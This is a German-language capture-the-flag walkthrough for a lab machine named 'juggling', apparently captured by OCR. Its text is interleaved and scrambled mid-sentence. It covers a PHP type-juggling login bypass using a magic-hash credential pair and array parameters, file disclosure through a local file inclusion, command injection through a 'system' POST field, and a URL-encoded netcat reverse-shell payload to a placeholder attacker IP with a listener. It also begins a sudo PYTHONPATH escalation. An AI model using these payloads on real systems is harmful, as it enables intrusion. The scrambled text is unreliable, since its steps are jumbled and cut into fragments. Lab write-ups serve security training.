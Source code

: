 ```isierten Umgebungen (z.B. auf eigenen Systemen oder mit ausdrücklicher Genehmigung des Eigentümmarkdown
        ```

3.  **Analyse von `index.php` (PHP Type Juggling):**
    *   Der dekodierte Quells3cur3/index.php` hinwiesen.
    *   Der VHost `s3cur3.code von `index.php` zeigte eine komplexe Authentifizierungslogik.
    *   **Schwachstelle:**juggling.hmv` wurde der `/etc/hosts`-Datei hinzugefügt. `gobuster` auf diesem V Eine Kombination aus `strcasecmp()` mit potenziellen Array-Eingaben (`$val1`, `$val2`) undHost fand eine `index.php`, die zur Hauptseite weiterleitete.

3.  **Login-Bypass:**
    *   Ein POST-Request an `http://juggling.hmv/index.php` mit den einem losen Vergleich (`==`) des MD5-Hashes von Username/Passwort mit `number_format($ Werten `username=QNKCD`, `password=Z`, `val1[]=a`, `val2[]=A`magicval * 1337)`.
    *   Durch Senden von `val1` und `val2` als Arrays (z.B. `val1[]=a`, `val2[]=A`) wird `$ umging die Login-Logik erfolgreich und setzte ein gültiges `PHPSESSID`-Cookie.

---

## Phasemagicval = strcasecmp(array, array)` zu `null`.
    *   Die Bedingung `md 3: Initial Access (RCE via Hidden VHost)

1.  **RCE auf VHost `s5($username.$password) == number_format(null * 1337)` wird zu `md5($username.$3cur3.juggling.hmv`:**
    *   Es wurde (vermutlich durch LFI aufpassword) == "0"`.
    *   Diese Bedingung ist wahr, wenn der MD5-Hash von `s3cur3/index.php`, Details im Log unklar) festgestellt, dass die `index.php` auf PHP als `0` interpretiert wird (z.B. wenn er nicht numerisch beginnt oder ein "Magic Hash" dem VHost `s3cur3.juggling.hmv` einen POST-Parameter `system` unsicher als wie `0e...` ist).
    *   Die Zugangsdaten `username=QNKCD` und `password=Z` (MD5-Hash: `0e83...`) erfüllten diese Bedingung.
    * Betriebssystembefehl ausführt.
    *   Mit dem gültigen `PHPSESSID`-Cookie vom Login-Bypass wurde ein POST-Request an `http://s3cur3.juggling.hmv/index.php`   Auskommentierte `header`-Zeilen im Code von `index.php` enthielten Hinweise auf den VHost `s3cur3.juggling.hmv` und den Pfad `../s3cur3/index. gesendet.
    *   Der POST-Body enthielt den Parameter `system=` mit einer URL-kodierten Netphp`.

4.  **VHost Discovery und Analyse:**
    *   `192.168.2cat-Reverse-Shell-Payload:
        ```
        system=nc%20-e%20.148 s3cur3.juggling.hmv` wurde zu `/etc/hosts` hinzugefügt./bin/bash%20[Angreifer-IP]%204444
        ```

    *   `gobuster dir` auf `http://s3cur3.juggling.hmv`2.  **Empfang der Shell:**
    *   Ein `nc -lvnp 4444` auf dem Angreifer-System empfing die Verbindung.
    *   Initialer Zugriff als `www-data` fand eine `index.php`, die zurück zu `juggling.hmv` weiterleitete.
    * wurde erlangt und die Shell stabilisiert.

---

## Phase 4: Privilege Escalation (Kette)   Mittels LFI auf `blog.php` wurde der Quellcode von `../s3cur3/index.php

### www-data zu rehan (Sudo/PYTHONPATH Hijacking)

1.  **Sudo-Rechte` ausgelesen (Inhalt im Log nicht explizit gezeigt, aber für den nächsten Schritt notwendig).

---

-Prüfung für `www-data`:**
    *   `www-data@juggling:~/## Phase 3: Initial Access (RCE via Hidden VHost)
```